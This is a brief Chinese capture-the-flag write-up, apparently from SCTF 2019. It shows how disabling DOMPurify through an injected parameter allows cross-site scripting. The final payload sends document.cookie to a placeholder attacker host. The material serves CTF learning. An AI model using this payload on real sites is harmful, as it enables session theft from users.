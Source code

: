 ![](/img/2019-sctf-1.png)
当`DOMPurify.isSupported`为`false`，则能够绕过过滤
于是构造
```javascript
name=a;alert(1);%0aDOMPurify[%27isSupported%27]%3dfalse&text=<script>alert(1)
```

把`DOMPurify.isSupported`设置为false，text参数的值就能直接插入页面中，造成xss
（这里不知道为啥`text=<script>alert(1)`直接就绕过csp弹窗了，可能是非预期
![](/img/2019-sctf-2.png)

最后payload：
```javascript
name=a;alert(1);%0aDOMPurify[%27isSupported%27]%3dfalse&text=<script>window.location.href%3d"http://xxxx.xxxx/?a%3d"%2bescape(document.cookie)
```
